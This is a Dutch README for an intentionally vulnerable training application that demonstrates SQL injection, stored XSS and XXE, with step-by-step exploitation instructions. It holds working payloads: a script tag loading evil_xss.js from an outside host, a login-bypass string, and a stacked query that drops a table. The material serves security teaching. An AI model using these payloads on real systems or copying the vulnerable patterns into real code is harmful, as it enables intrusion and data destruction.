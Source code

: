 # OwaspVulnerabilities

In deze applicatie zijn drie vulnerabilities ingebouwd.<br>

Injection (sql en code)<br>
Cross site scripting XSS<br>
XML External Entity (XXE) Processing<br>

Injection (sql en code)<br>
Na het starten van de applicatie is er een H2 database met url: http://localhost:9080/h2-console/<br>
User is sa, password is leeg.<br>

Tabellen User en Article<br>
User wordt gebruikt om 'in te loggen' - SQL injectie<br>
Article wordt gebruikt om code te injecteren.<br>

Testen gaat via Swagger (http://localhost:9080/swagger-ui.html#/) en browser. Er is geen frontend.<br>

Code injectie <br>

Voeg middels 'addArticle' van de ArticleController een article toe met in het veld description: <br>
<code><script>alert('Hello')</script><code>
(id mag leeg blijven)
In de response is het aangemaakte article te zien met het id.
Gebruik dit id in 'getArticleById' om het article op te halen.
Er gebeurt verder niets maar de code is te zien in de response.
Kopieer de 'Request url' onder het Curl stukje (bijv. http://localhost:9080/api/article/getArticleById?id=2).
Gebruik de url in de browser.
Er is nu een alert melding te zien.
Voek een nieuwe article toe met in het veld description:
<script src='http://home.kpn.nl/vuwu57lx/evil_xss.js'></script>
Gebruik van de url van dit nieuwe article (bijv. http://localhost:9080/api/article/getArticleById?id=3)
geeft nu een melding in de browser m.b.t. encrypted files

---------------------------------------------------------------------------------------------------------
SQL injectie

De methode authenticate van de AuthenticationController wordt gebruikt om in te loggen.
Bij verkeerde credentials wordt status 401 teruggegeven en een leeg user object.
Bij de juiste credentials wordt een gevuld user object teruggegeven
user nikki@info.org
pw   S&cr#t
In de logging is de gebruikte sql query te zien:
SELECT * FROM User WHERE user = 'nikki@info.org' and password = 'S&cr#t'
Het is nu de kunst om iets in het password in te vullen zodat een geldige query ontstaat die resultaat oplevert.
Een voorbeeld is: ' or '1' = '1
De query wordt dan:
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'
Dit: ' or '1' = '1'   ; drop table article; --
geeft query 
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'   ; drop table article; --'
en heeft tot gevolg dat tabel article is verwijderd.

---------------------------------------------------------------------------------------------------------
XML External Entity (XXE) Processing

In een XML bestand is het mogelijk om een DOCTYPE element op te nemen.
Hierin kunnen uitvoerbare instructies staan
XML parsers voeren deze instructies uit, afhankelijk van bepaalde settings.

De RegisterXxeAttackController logt een dergelijke 'aanval'.
Upload in Swagger via de XmlUploadController bestand ...src/main/resources/aanvraag.xml
Het gevulde object wordt getoond in de response.
Doe hetzelfde met ...src/main/resources/xxeaanvraag.xml
In de logging is nu te zien:
RegisterXxeAttackController      : Http request in !DOCTYPE element in xml is executed!


N.B.
In de pom staan dependencies voor jaxb omdat deze geen deel meer uitmaken van Java versies > 8
Het kan zijn dat hier, afhankelijk van de gebruikte Java versie, problemen mee ontstaan.




